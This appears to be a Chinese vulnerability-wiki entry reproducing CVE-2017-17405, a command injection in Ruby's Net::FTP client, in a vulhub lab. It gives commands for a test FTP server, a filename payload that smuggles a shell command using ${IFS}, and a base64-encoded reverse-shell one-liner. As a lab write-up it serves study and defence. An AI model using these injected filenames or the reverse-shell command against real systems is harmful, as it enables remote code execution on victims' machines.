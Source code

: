 （CVE-2017-17405）Net::FTP 模块命令注入漏洞
===========================================

一、漏洞简介
------------

Ruby Net::FTP
模块是一个FTP客户端，在上传和下载文件的过程中，打开本地文件时使用了`open`函数。而在ruby中，`open`函数是借用系统命令来打开文件，且没用过滤shell字符，导致在用户控制文件名的情况下，将可以注入任意命令。

二、漏洞影响
------------

Ruby \< 2.4.3

三、复现过程
------------

因为这是一个FTP客户端的漏洞，所以我们需要先运行一个可以被访问到的服务端。比如使用python：

    # 安装pyftpdlib
    pip install pyftpdlib

    # 在当前目录下启动一个ftp服务器，默认监听在`0.0.0.0:2121`端口
    python3 -m pyftpdlib -p 2121 -i 0.0.0.0

然后即可开始利用漏洞。注入命令`|touch${IFS}success.txt`（空格用`${IFS}`代替，原因不表），发送如下数据包即可（其中uri指定的ftp服务器就是我用python运行的一个简单的ftp
server，其中无需放置任何文件）：

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-17405)Net::FTP模块命令注入漏洞/media/rId24.png)

然后进入docker容器内，可见success.txt已被创建：

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-17405)Net::FTP模块命令注入漏洞/media/rId25.png)

执行反弹shell的命令`|bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA...}|{base64,-d}|{bash,-i}'`，成功反弹：

![3.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-17405)Net::FTP模块命令注入漏洞/media/rId26.png)

参考链接
--------

> https://vulhub.org/\#/environments/ruby/CVE-2017-17405/

